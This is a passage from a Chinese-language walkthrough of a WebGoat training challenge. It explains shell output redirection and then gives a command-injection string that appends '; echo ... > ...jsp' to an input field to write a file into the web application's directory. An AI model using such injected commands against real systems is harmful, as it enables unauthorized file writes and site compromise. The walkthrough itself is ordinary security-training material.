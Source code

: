 意思是使用清空file的内容文本,填充"text"进入file,对应的另外一个

```
echo "text" >> file 

```

保留file的内容文本,后续补充"text",[百度原理看这里](http://jingyan.baidu.com/article/a501d80c0c9cbaec630f5e8d.html),构造注入语句

```
tcp; echo "<html><body>Mission Complete</body></html>" > WebGoat/webgoat-container/target/webgoat-container-7.1-SNAPSHOT/webgoat_challenge_guest.jsp

```

### Stage4

任务完成了,WebGoat的练习题只能说坑爹坑爹十分坑爹...但是总体来说还是熟悉了常用的攻击手段...学到了不少东西